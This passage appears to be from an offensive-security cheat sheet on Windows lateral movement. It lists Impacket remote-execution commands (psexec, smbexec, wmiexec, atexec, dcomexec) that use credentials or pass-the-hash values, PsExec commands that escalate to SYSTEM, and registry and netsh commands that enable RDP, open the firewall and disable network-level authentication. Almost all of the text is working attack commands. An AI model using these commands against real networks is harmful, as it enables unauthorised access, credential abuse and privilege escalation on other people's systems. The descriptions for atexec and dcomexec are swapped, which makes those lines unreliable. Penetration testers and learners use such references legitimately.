From [Impacket](https://github.com/SecureAuthCorp/impacket) (:warning: renamed to impacket-xxx in Kali)
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.

```powershell
root@payload$ git clone https://github.com/CoreSecurity/impacket.git

# PSEXEC like functionality example using RemComSv
root@payload$ python psexec.py DOMAIN/username:password@10.10.10.10
# this will drop a binary on the disk = noisy

# A similar approach to PSEXEC w/o using RemComSvc
root@payload$ python smbexec.py DOMAIN/username:password@10.10.10.10

# A semi-interactive shell, used through Windows Management Instrumentation. 
root@payload$ python wmiexec.py DOMAIN/username:password@10.10.10.10
root@payload$ wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79


# A semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints. 
root@payload$ python atexec.py DOMAIN/username:password@10.10.10.10

# Executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
root@payload$ python dcomexec.py DOMAIN/username:password@10.10.10.10
```

## PsExec - Sysinternal

from Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

```powershell
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe

# switch admin user to NT Authority/System
PS C:\> PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s 
```

## RDP Remote Desktop Protocol 

:warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.

```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Disable NLA
```
